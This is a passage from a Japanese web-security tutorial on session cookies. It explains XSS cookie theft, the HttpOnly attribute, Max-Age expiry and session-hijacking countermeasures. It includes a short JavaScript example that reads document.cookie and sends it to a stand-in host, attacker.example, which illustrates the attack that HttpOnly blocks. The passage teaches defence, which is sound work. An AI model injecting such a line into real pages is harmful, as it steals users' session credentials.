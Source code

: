 ここまでの設定で経路上での Cookie の漏洩などについて解説してきた。しかし Cookie は JS からアクセスすることもできるため、 XSS があれば簡単に盗み出せてしまう。


```js
const cookie = document.cookie // "session_id=YWxpY2U"
fetch(`https://attacker.example/?${cookie}`)
```

盗まなくても、好きに書き換えて代入しなおせば上書きすることができる。ここには属性も含めることが可能だ。


```js
document.cookie = "session_id=bad-cookie; Path=/; Secure"
```

ここで HttpOnly 属性をつけると、その Cookie は HTTP ヘッダでは送られるが、 JS からはアクセスできなくなるため、こうした攻撃を防ぐことができる。


```js
Set-Cookie: session_id=YWxpY2U; Path=/; Secure; HttpOnly;
```

基本的に Credential となる Session Cookie は、サーバとの Session の維持のために使われ、 JS から取得する必要を無くし HttpOnly にするべきだ。

:::details JS のデータストアとしての Cookie
JS でリッチな UI を構築する流れが始まってから LocalStorage が普及するまでの間は、 `document.cookie` が大体として使われていた時代がある。
LocalStorage や Indexed DB が普及した現在、 JS からアクセスするストレージとして基本的にそれらを利用する方が良いだろう。
それでも Cookie に保存することで HTTP でも送られつつ JS からもアクセスしたいというケースは無くはない。そうしたケースでは必ず別の Cookie を定義し session_id のような Credential 値とは混ぜないように注意する必要がある。
:::


## Max-Age による有効期限

Cookie には有効期限があり、クライアントがその Cookie をいつまで送り続けるのかを `max-age` 属性に秒数で指定する。


```http
Set-Cookie: session_id=YWxpY2U; Path=/; Max-Age=2592000
```

しかし、他のサイトの Cookie が増えていき、ブラウザに保存できる限界を超えると古いものから消されることがあるため、**指定した時間確実に残ることは保証されるわけではない** という点には注意したい。

通常、長期の保存を意図しても一年以上を指定する意味はないだろう。また、 session_id は長くしすぎると攻撃が発生している場合の影響が拡大していく可能性があるため、3ヶ月や1週間などにし、頻繁に利用していればSession は維持され続けるが、連続して使わない日々が一定期間続くと、再訪時に認証を求めるといった実装が一般的だろう。

Session Cookie の起源を長くする時、最も恐るべきリスクは、「実は攻撃者が session_id の盗み出しに成功しており、別でログインしてユーザの行動をひっそりと見ている」という状況だろう。そこで Session を維持する中でも session_id の値を定期的に更新したり、重要な情報へのアクセスには再度認証を強制するなどの対策が考えられる。また Session オブジェクトの中に認証時の IP アドレスや User-Agent を保存しておき、アクセスしてきた環境があまりにも違ったら、認証などで確認を促すサイトもあるだろう。意図した Cookie が、意図したブラウザから、意図した通りに送られているかは、常に疑うくらいでもおかしくは無いと筆者は考えている。

TODO: (NIST に cookie 期限あったっけ？)


:::details ブラウザを閉じると消える cookie
Max-Age の無い Set-Cookie の場合 Cookie はブラウザが閉じると消えるという挙動になる。

今ではブラウザが立ち上げっぱなしの人も多いだろうが、昔は今と違い、用が済むとブラウザをいちいち閉じたり、さらには PC をオフにするのが一般的だった。この「ブラウザが閉じる」ことをセッション終了と考え、そこで消える有効期限を指定しない Cookie を、 Session Cookie と呼ぶことがあった。それはここまで解説してきた Session Cookie と意味が違うためややこしい。

現在では、多くのサービスが明示的にログアウトするか長期間使用しない状態が続くまではセッションを維持し、ブラウザを閉じるたびにログアウトするなどと言ったことはしないだろう。つまり、少なくとも session_id には Max-Age を指定するのが一般であり、その期間をコントロールする実装が通常だ。以降「ブラウザを閉じたら消える」意味での Session Cookie は解説には出てこない。
:::
